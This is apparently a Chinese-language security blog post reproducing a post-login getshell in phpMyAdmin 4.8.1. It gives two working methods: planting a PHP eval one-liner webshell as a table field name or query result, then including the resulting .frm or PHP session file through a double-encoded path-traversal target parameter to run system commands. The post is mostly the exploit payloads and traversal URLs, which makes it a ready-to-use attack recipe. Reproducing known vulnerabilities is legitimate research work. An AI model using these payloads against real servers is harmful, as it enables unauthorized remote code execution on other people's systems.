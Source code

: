 ```yaml
---
layout: post
title: phpmyadmin4.8.1后台getshell
categories: [permeate]
tags: [permeate]
fullview: false
comments: true
---
```


复现一下  
  
phpmyadmin4.8.1后台getshell  

包含文件进行getshell  

姿势:  

### ① ###
建立数据库的，新建表，字段名为一句话木马。 

  
![](https://i.imgur.com/EPlDyPp.png)

会生成对应的数据库文件，相应文件的路径查看  
>     select @@datadir;

![](https://i.imgur.com/Audw2qN.png)  
  
这个样子就会在/var/lib/mysql/hack/hack.frm的文件里包含着一句话木马的字段。  

![](https://i.imgur.com/bEMPj9r.png)  

>     ?target=db_sql.php%253f/../../../../../../var/lib/mysql/data/hack/hack.frm  

![](https://i.imgur.com/UONoCwf.png)  

权限不够，  

![](https://i.imgur.com/HZtEHKa.png)  

不过这个windows下面倒是很简单，不用考虑权限。
### ② ###

查询语句(一句话木马)，  

执行查询  

>     select '<?php @eval($_GET["code"])?>'


之后会保存在session文件里。  

session文件:  
>     /var/lib/php/sessions/sess_你的SESSION ID  

包含payload:
>     ?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_6ker17rs59cuu39e6rfdpdrcaoto5116&a=system("ls");
  
![](https://i.imgur.com/ksFcQS2.png) 

